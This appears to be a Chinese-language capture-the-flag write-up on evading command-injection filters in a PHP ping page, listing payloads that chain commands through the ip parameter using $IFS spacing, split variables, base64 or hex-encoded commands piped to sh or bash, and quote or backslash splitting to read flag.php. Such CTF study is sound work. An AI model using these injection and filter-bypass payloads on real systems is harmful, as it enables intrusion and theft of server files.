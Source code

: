 ## 使用变量代替字符串

```bash
?ip=127.0.0.1;a=f;cat$IFS$1$alag.php        过滤
?ip=127.0.0.1;a=l;cat$IFS$1f$aag.php        没flag
?ip=127.0.0.1;a=a;cat$IFS$1fl$ag.php        过滤
?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php        有flag
?ip=127.0.0.1;a=fl;b=ag;cat$IFS$1$a$b.php   过滤
?ip=127.0.0.1;b=ag;a=fl;cat$IFS$1$a$b.php   有flag
```

## 被过滤的bash，用管道+sh替换

cat flag.php用base64加密来绕过正则匹配

```bash
Y2F0IGZsYWcucGhw
1
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|bash
1
```

```txt
//?ip= fxck your bash!
```

过滤了flag、bash，但sh没过滤，linux下可用sh

```bash
?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
1
|sh 就是执行前面的echo脚本
```

## 其他思路

```bash
cat fl*  用*匹配任意 
cat fla* 用*匹配任意
ca\t fla\g.php        反斜线绕过
cat fl''ag.php        两个单引号绕过
echo "Y2F0IGZsYWcucGhw" | base64 -d | bash      
//base64编码绕过(引号可以去掉)  |(管道符) 会把前一个命令的输出作为后一个命令的参数

echo "63617420666c61672e706870" | xxd -r -p | bash       
//hex编码绕过(引号可以去掉)

echo "63617420666c61672e706870" | xxd -r -p | sh     
//sh的效果和bash一样

cat fl[a]g.php       用[]匹配

a=fl;b=ag;cat $a$b          变量替换
cp fla{g.php,G}    把flag.php复制为flaG
ca${21}t a.txt     利用空变量  使用$*和$@，$x(x 代表 1-9),${x}(x>=10)(小于 10 也是可以的) 因为在没有传参的情况下，上面的特殊变量都是为空的 
```

